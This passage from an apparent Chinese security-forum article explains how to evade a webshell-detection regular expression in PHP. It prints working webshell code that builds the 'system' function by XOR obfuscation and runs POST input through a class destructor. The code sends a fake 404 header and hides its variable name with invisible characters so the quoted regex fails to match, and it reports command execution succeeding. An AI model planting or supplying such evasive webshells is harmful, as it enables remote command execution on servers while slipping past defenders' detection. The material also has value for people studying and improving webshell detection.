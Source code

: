 <p blockindex="46"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-9871c985e2cc2f3a4e139638be332dc7914feffe.png" alt="跨越十年-8.png" referrerpolicy="no-referrer"></p>
<p blockindex="47">成功ByPass：</p>
<p blockindex="48"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-ef2e7dd357d6b99c00cedd1a1c113f549735d761.png" alt="跨越十年-9.png" referrerpolicy="no-referrer"></p>
<p blockindex="49">同样，基于这种思路，还可以用更多手法来绕过这些正则表达式</p>
<h1 blockindex="50">4# 关于课后作业</h1>
<p blockindex="51">这篇文章发表后，在公众号上迅速传播，我真没想到能得到lake2师傅的回应，也没想到师傅居然是前腾讯安全平台部总监?</p>
<p blockindex="52"><strong>《我很好，谢谢》：<a href="https://mp.weixin.qq.com/s/l1gt6Wf_yZg-dHeyBmA7Dw">https://mp.weixin.qq.com/s/l1gt6Wf_yZg-dHeyBmA7Dw</a></strong></p>
<p blockindex="53">在文中，大佬也给我留下了课后作业：</p>
<p blockindex="54"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-59cb59f19aa7982d22b4218ab06be9b19419bffe.png" alt="课后作业-1.png" referrerpolicy="no-referrer"></p>
<p blockindex="55">那意味着有以下限制条件：</p>
<ul blockindex="56">
<li>不能使用任何高危函数</li>
<li>不能使用任何回调函数</li>
<li>在满足以上两个条件的情况下，能绕过 <code>\$[\w-_\'\\[\\]{}\.\$\*/|]+(\s|\/\*.*?\*\/)*\(.*?\)</code> 这个正则表达式</li>
</ul>
<p blockindex="57">这个限制条件看似简单，实则细细研究后，还是挺让人伤脑筋的</p>
<p blockindex="58">因为正常情况下，比如我将高危函数名传给变量（因为高危函数都被禁用了）：</p>
<pre blockindex="59"><code class="hljs language-php"><span class="hljs-variable">$f</span> = (<span class="hljs-string">'.$.48]'</span> ^ <span class="hljs-string">']]]@]0'</span>);  <span class="hljs-comment">//通过异或运算，让$f = system</span>
</code></pre>
<p blockindex="60">当我们要调用 <code>$f</code> 执行高危命令的时候，结构如下：</p>
<pre blockindex="61"><code class="hljs language-php"><span class="hljs-variable">$f</span>(<span class="hljs-variable">$_POST</span>[<span class="hljs-string">'aabyss'</span>]);
<span class="hljs-variable">$f</span>(calc);
<span class="hljs-variable">$f</span>(whoami);
</code></pre>
<p blockindex="62">观察发现，拐来拐去最终还是 <code>$f()</code> 的一个结构，而这个结构，恰恰是 <code>\$[\w-_\'\\[\\]{}\.\$\*/|]+(\s|\/\*.*?\*\/)*\(.*?\)</code> 这个正则表达式识别和匹配的结构</p>
<p blockindex="63"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-9f5c71263a81d36b58b37ab4fc4575e575e127ff.png" alt="跨越十年-7.png" referrerpolicy="no-referrer"></p>
<p blockindex="64">那我们该怎么绕过呢？这个时候我发现，正则表达式在匹配 <code>$f()</code> 的 <code>$f</code> 前头的这个变量的时候，使用的是 <code>[\w-_\'\\[\\]{}\.\$\*/|]+</code>，那我能不能使用不可见字符绕过呢？</p>
<p blockindex="65">说干就干，我写了以下demo：</p>
<pre blockindex="66"><code class="hljs language-php">header(<span class="hljs-string">'HTTP/1.1 404'</span>);
<span class="hljs-class"><span class="hljs-keyword">class</span> <span class="hljs-title">Aabyss</span></span>{
<span class="hljs-keyword">public</span> <span class="hljs-variable">$c</span>=<span class="hljs-string">''</span>;
<span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">__destruct</span>(<span class="hljs-params"></span>)</span>{
$ = (<span class="hljs-string">'.$.48]'</span> ^ <span class="hljs-string">']]]@]0'</span>);   <span class="hljs-comment">//通过异或运算，得到高危函数system</span>
<span class="hljs-keyword">return</span> $(<span class="hljs-keyword">$this</span>-&gt;c);
}
}
<span class="hljs-variable">$runrun</span>=<span class="hljs-keyword">new</span> Aabyss();
@<span class="hljs-variable">$runrun</span>-&gt;c=<span class="hljs-variable">$_POST</span>[<span class="hljs-string">'zg'</span>];
</code></pre>
<p blockindex="67">传参后，成功执行 <code>calc</code> 弹出计算器：</p>
<p blockindex="68"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-78d613c4e7572cd87a77222864f6ee018b54164a.png" alt="课后作业-2.png" referrerpolicy="no-referrer"></p>
<p blockindex="69">绕过正则表达式的匹配，成功ByPass：</p>
<p blockindex="70"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-c05e1d6e5a625f8271c18be58b5e067390e0f657.png" alt="课后作业-3.png" referrerpolicy="no-referrer"></p>
<p blockindex="71">背后原理：在早期PHP版本（版本号 &lt; <code>7.1.9</code>）当中，不可见字符串是允许作为变量所存在的，那我可以通过十六进制编辑器，将变量改为不可见字符串即可：</p>
<p blockindex="72"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-cb4dcfaf54b706f02ff65f5e7ef5846328e5c545.png" alt="课后作业-4.png" referrerpolicy="no-referrer"></p>
<p blockindex="73"><img src="https://shs3.b.qianxin.com/attack_forum/2023/11/attach-a697094f927772d0c7ffbfcd8d7b98c5f14087ee.png" alt="课后作业-5.png" referrerpolicy="no-referrer"></p>